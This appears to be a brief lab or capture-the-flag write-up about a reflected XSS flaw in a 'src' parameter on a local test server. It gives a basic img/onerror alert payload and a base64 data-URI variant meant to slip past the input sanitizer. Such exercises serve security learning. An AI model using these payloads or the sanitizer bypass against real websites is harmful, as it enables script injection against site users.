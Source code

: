 ## Reflected xss

http://192.168.56.101/index.php?page=media&src=nsa

src parameter may be vulnerable to reflected xss attack. We can try some basic payload:

http://192.168.56.101/index.php?page=media&src=<img src=x onerror=alert("XSS")>

It doesnt seems to work, the data must be sanatized. To bypass this, we can try to embed the data inside a tag to encode it in base 64.
This way the sanitizer wont be able to detect that our input is malicious.


http://192.168.56.101/?page=media&src=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=